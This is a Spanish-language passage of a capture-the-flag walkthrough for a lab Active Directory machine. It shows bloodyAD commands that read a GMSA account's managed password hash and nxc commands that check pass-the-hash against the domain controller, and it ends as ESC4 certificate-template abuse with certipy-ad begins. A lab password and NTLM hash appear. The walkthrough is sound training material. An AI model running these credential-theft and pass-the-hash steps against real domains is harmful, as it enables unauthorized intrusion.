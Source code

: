 A través de la herramienta de `bloodyAD`, procederemos a leer la contraseña del GMSA. Logramos obtener el hash NTLM del objeto en cuestión.

```bash
❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -u 'lan_managment' -p 'l@n_M@an!1331' get object 'infiltrator_svc$' --attr msDS-ManagedPassword

distinguishedName: CN=infiltrator_svc,CN=Managed Service Accounts,DC=infiltrator,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:3ec423661d68dbda6c94ff25ff4d726b
msDS-ManagedPassword.B64ENCODED: z+LzYks13ZzAJQxIZgFbQCYsOroomLTBLYJhZKhD+gD+4zAwiKZe+vu8YrR44x20SQ/ytOmb2+1cq/BV6HeCl6IW50MjiLLLBEJh8xOH8ttUJ6SNjZ8iTq2lcG38EdSSQZE/iEpiIcmKa+QAAzPvwKrKYzU+IUsQYzw9mvrRpVTad46hZ7UZBV7o9LRDNUzwkVvO+pd69ou5Ut+l4ugcjp95iRe1of4vZE2Sd3UR3vdb9RQwfYz9O22pGD7FCXIuAXdeQssQNIqgyZJa+FyEVl5cVSJHm3Z7ZJ1AmIOmhtj3SgyAtVh0iYokhQKDRtxzwU3Y6lg9fijgfb41XkVtiw==
```

Validamos si podemos hacer un _**Pass-The-Hash**_ con este hash NTLM y el usuario, verificamos que logramos validar las credenciales correctamente.

```bash
❯ nxc smb dc01.infiltrator.htb -u 'infiltrator_svc$' -H '3ec423661d68dbda6c94ff25ff4d726b'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\infiltrator_svc$:3ec423661d68dbda6c94ff25ff4d726b
```

### ESC4 exploitation case with certipy-ad

Buscando vías potenciales de elevar nuestros privilegios, verificamos que este usuario, forma parte del grupo `Certificate Service DCOM Access`, lo cual nos replantea investigar si podemos abusar de los ADCS (Active Directory Certificate Services).

<figure><img src="../../.gitbook/assets/3827_vmware_MGvRJk4XWu (1).png" alt=""><figcaption></figcaption></figure>

Con la herramienta de `certipy-ad` buscaremos si existe algún template que sea vulnerable. En este caso nos muestra que podemos efectuar el `ESC4`.
